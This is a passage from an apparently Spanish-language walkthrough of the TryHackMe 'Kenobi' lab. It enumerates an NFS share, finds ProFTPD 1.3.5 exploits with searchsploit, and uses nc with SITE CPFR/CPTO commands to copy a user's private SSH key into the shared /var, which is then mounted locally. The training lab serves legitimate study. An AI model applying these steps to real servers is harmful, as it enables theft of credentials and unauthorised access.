 ```bash
sudo showmount -e <dirección IP>
```

![](http://0.0.0.0:80/2022-02-07-Kenobi-TryHackMe/8.png)

La ruta `/var` está siendo compartida a nivel de red, de modo que si lográramos mover algún archivo potencial dentro de esta ruta, y luego la montásemos en nuestro equipo, podríamos visualizar dicho archivo de manera local.

### [](#header-3)Fase De Explotación

Lo primero que podemos pensar es buscar alguna vulnerabilidad en el servicio `ProFTPD`, basado en `FTP` (File Transfer Protocol), moviendo así archivos desde el lado del cliente, hacia el servidor.

Para explotar el servicio `ProFTPD`, empezaremos buscando algún exploit que se encuentre en _Exploit Database_, para ello utilizaremos _SearchSploit_ para poder seguir trabajando desde nuestra terminal.

```
searchsploit ProFTPD 1.3.5
```

![](http://0.0.0.0:80/2022-02-07-Kenobi-TryHackMe/9.png)

De los `4` exploits que encontramos, nos quedaremos con el último

![](http://0.0.0.0:80/2022-02-07-Kenobi-TryHackMe/10.png)

Concretamente con las líneas 12, 13 y 14.

![](http://0.0.0.0:80/2022-02-07-Kenobi-TryHackMe/11.png)

Las cuales nos permiten hacer justamente lo que nos interesa, copiar un archivo de una ruta (_CPFR_), a otra (_CPTO_).

De este modo, si nos conectamos a la máquina víctima a través del puerto `21`, podremos ejecutar estos comandos.

```bash
nc <direción IP> 21
```

```bash
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

![](http://0.0.0.0:80/2022-02-07-Kenobi-TryHackMe/12.png)

Ya con todo esto, podemos _montar_ la ruta `/var` en nuestro equipo, para ello haremos lo siguiente:

```bash
sudo mount <dirección IP>:/var /mnt/kenobiNFS
```

En caso de que tengamos un error similar a este:
